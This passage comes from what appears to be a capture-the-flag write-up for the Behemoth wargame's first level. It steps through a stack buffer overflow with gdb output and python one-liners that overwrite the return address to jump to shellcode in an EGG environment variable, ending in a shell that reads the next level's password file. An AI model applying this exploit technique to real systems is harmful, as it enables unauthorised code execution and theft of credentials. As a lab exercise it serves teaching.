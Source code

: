 ```
Great. I tried to write a .c program printing the address of EGG, but it seems that the address is not aligned. We can fix that by using a special scripts (can find them on the interwebz), but I didn't do that here, so we are basically going to find EGG'S address by trial and error. First, we want to know where gdb load's the environ (gdb will usually load it in a different address, but not that far from the actual one):
```

(gdb) b main
Breakpoint 1 at 0x8048451
(gdb) r
Starting program: /behemoth/behemoth1

Breakpoint 1, 0x08048451 in main ()
(gdb) x/s *((char**)environ)
0xffffd48d:	"LC_ALL=en_US.UTF-8"
(gdb) x/s *((char**)environ+0)
0xffffd48d:	"LC_ALL=en_US.UTF-8"
(gdb) x/s *((char**)environ+1)
0xffffd4a0:	"LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc"...
(gdb) x/s *((char**)environ+2)
0xffffda5c:	"SSH_CONNECTION=132.68.40.2 55032 192.168.101.70 22"
(gdb) x/s *((char**)environ+3)
0xffffda8f:	"EGG=", '\220' <repeats 196 times>...
(gdb) x/s *((char**)environ+3)
0xffffda8f:	"EGG=", '\220' <repeats 196 times>...
(gdb) quit
A debugging session is active.

	Inferior 1 [process 29292] will be killed.

Quit anyway? (y or n) y

```
Okay, it's loaded in '0xffffda8f'. Now we want to craft our input:
```
behemoth1@behemoth:/behemoth$ python -c "print('a'*71+'\x8f\xda\xff\xff')" | ./behemoth1
Password: Authentication failure.
Sorry.
Segmentation fault
```
seg fault means that we missed our EGG's address, thus trying to run an illigal instruction.  Let's try to go a bit up in our address:
```
behemoth1@behemoth:/behemoth$ python -c "print('a'*71+'\x7f\xda\xff\xff')" | ./behemoth1
Password: Authentication failure.
Sorry.
Segmentation fault
```
Not there yet. 
```
behemoth1@behemoth:/behemoth$ (python -c "print('a'*71+'\x6f\xda\xff\xff')") | ./behemoth1
Password: Authentication failure.
Sorry.
```
Great, we hit it. It seems that the shell is closed immediately. We will use cat in ordered to keep it alive:
```
behemoth1@behemoth:/behemoth$ (python -c "print('a'*71+'\x6f\xda\xff\xff')";cat) | ./behemoth1
Password: Authentication failure.
Sorry.
whoami
behemoth2
cat /etc/behemoth_pass/behemoth1
cat: /etc/behemoth_pass/behemoth1: Permission denied
cat /etc/behemoth_pass/behemoth2                         